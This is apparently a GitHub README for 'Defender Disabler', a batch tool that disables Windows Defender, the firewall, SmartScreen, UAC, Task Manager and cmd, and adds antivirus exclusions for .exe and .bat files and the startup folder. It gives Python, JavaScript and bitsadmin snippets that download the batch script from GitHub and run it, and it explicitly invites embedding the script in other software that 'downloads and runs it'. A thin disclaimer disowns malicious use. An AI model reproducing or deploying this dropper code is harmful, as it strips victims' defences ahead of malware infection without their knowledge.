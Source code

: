 <h1 align="center">
  Defender Disabler ➰
</h1>

<p align="center">
  Destroy Windows Defender so hard that it doesn't even know it exists anymore
</p>

<p align="center">
  <kbd>
    <img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/defender-disabler.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Defender-disabler&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Defender-disabler?color=5ac18e&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Defender-disabler?color=5ac18e&label=Forks&style=flat-square"/>
</p>

<h2 align="center">
  Defender-disabler was made by

Love ❌ code ✅

</h2>

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Using defender-disabler](#setup)
- [🌱・Inspiration/Credits](#credits)
- [❕・Warning](#warn)

## <a id="features"></a>🔰 〢 Features

```
> Disables Windows Defender completely
> Disables Automatic Sample Submission and Quickscan
> Disables Windows FireWall, Smart Screen, and other security features
> Disables important security settings such as Real-time and Ransomware protection, AntiSpyware, BehaviorMonitoring,  etc..
> Adds .exe and .bat files as exclusions and the startup folder as exclusions
> Disables UAC (Reboot Required)
> Disables TaskManager, Registrytools, cmd, run
> + More!
```

## <p align="left"><img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/Screenshot%202021-10-14%20162401.png">

---

## <a id="setup"></a> 📁 〢 Using defender-disabler

First off you need to figure out if you want to use this program alone or use it in some other software that downloads and runs it.

1. Compiling the program
   There are multiple ways of compiling a batch file,

   - [Converting Batch file to Exe via IExpress](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_file_to_EXE_via_IExpress)
     - [Converting Batch Scripts to Exe with Bat To Exe Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_with_Bat_To_Exe_Converter)
       - [Converting Batch Scripts to Exe via Advanced BAT to EXE Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_via_Advanced_BAT_to_EXE_Converter)
<br>
2. Implementing it in your software
   Depending on what language you're using, it will require different ways of implementing it.
  
   Here are some examples:

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('demo.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('disabler.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('demo.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat "demo.bat"
start demo.bat
```

## <a id="warn"></a> ❕ 〢 Warning 
  Running this program will completely disable Windows Defender. This program was not made to be used for any malicious purposes.
  If you now accidently ran this program on your main pc instead of a vm, reverting the changes will be hard but most of them can be fixed by runnig [enabler.bat](https://github.com/Rdimo/Defender-disabler/blob/main/enabler.bat) as admin

## <a id="credits"></a> 🌱 〢 Inspiration/Credits
  Most of the code is taken from [swagkarna](https://github.com/swagkarna) and his [Defender-disabler](https://github.com/swagkarna/Defeat-Defender-V1.2)
  This one is just more smoother, improved, more user friendly and has more features.


  <br>

<p align="center">
  By using Defender Disabler, you agree that you hold responsibility and accountability of any consequences caused by your actions
<br>
  <a href=#top>Back to Top</a>
</p>
